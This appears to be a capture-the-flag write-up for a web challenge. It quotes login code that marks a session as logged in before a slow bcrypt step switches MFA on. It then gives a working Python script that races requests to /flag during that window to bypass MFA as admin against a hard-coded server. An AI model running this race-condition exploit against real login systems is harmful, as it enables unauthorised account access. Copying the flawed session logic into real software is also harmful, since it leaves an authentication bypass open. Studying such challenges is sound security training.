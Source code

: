 ```python
.
.
.
        else:
            session.loggedIn = True #vul here
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            session.loggedIn = False
            session._save()
.
.
.
```

Flag check logic as: if we hit /flag before loggedIn flips back to False, we bypass MFA. If we spam /flag during calling `bcrypt.hashpw()`, we can get the flag.

```python
if not session.get("loggedIn",False) or session.get("username") != "admin":
    redirect('/')
```

Solution:

```python
import threading, time, re
import requests

BASE = "http://52.59.124.14:5010"
s = requests.Session()
s.get(f"{BASE}/", timeout=5)
flag_html = None
stop = False

def spray_flag():
    global flag_html, stop
    while not stop:
        r = s.get(f"{BASE}/flag", allow_redirects=False, timeout=5)
        if r.status_code == 200:
            flag_html = r.text
            stop = True
            break

t = threading.Thread(target=spray_flag)
t.daemon = True
t.start()
s.post(f"{BASE}/", data={"username":"admin","password":"admin"}, allow_redirects=False, timeout=30)
t.join(timeout=5)
if flag_html:
    m = re.search(r'([A-Z]{2,}\{[^}]+\})', flag_html)
    print(m.group(1) if m else flag_html)
```
